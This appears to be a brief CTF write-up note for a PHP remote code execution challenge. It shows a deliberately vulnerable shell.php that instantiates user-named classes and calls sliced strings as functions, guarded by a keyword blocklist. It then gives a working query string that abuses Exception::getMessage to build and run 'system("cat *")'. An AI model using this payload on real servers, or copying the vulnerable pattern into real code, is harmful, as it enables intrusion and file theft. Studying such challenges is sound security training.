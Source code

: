 ![](<./img/Pasted image 20230501145553.png>)

```
/shell.php
```

```php
<?php

error_reporting(0);
show_source(__FILE__);

$a = $_GET["a"];
$b = $_GET["b"];
$c = $_GET["c"];
$d = $_GET["d"];
$e = $_GET["e"];
$f = $_GET["f"];
$g = $_GET["g"];

if(preg_match("/Error|ArrayIterator|SplFileObject/i", $a)) {
    die("你今天rce不了一点");
}


if(preg_match("/php/i", $b)) {
 die("别上🐎，想捣蛋啊哥们？");
}

if(preg_match("/Error|ArrayIterator/i", $c)) {
 die("你今天rce不了一点");
}


$class = new $a($b);
$str1 = substr($class->$c(),$d,$e);
$str2 = substr($class->$c(),$f,$g);
$str1($str2);

//flag.php 
```

```
/shell.php?a=Exception&b=systemcat *&c=getMessage&d=0&e=6&f=6&g=5
```

![](<./img/Pasted image 20230501145514.png>)

#Web #RCE #PHP #shell #bypass 